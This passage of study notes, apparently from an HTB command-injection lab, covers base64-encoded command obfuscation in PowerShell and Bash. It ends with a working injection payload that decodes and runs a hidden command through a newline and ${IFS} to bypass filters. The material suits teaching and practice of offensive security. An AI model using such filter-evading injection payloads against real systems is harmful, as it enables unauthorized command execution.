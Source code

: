 
```powershell-session
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))

dwBoAG8AYQBtAGkA
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```shell-session
smoothment@htb[/htb]$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64

dwBoAG8AYQBtAGkA
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell-session
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

As we can see, we can get creative with `Bash` or `PowerShell` and create new bypassing and obfuscation methods that have not been used before, and hence are very likely to bypass filters and WAFs. Several tools can help us automatically obfuscate our commands, which we will discuss in the next section.

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).

# Question
---


![[Pasted image 20250205144449.png]]

We can do the following payload:

```
127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK)
```

```ad-important
#### Breakdown
---
1. **Base64 Encoded Command**  
    The original command `find /usr/share/ | grep root | grep mysql | tail -n 1` is encoded to:  
    `ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDEK`.
    
2. **Decode and Execute**
    
    - `base64${IFS}-d`: Decodes the Base64 string (using `${IFS}` for space).
        
    - `bash<<<`: Passes the decoded command to `bash` for execution.

```
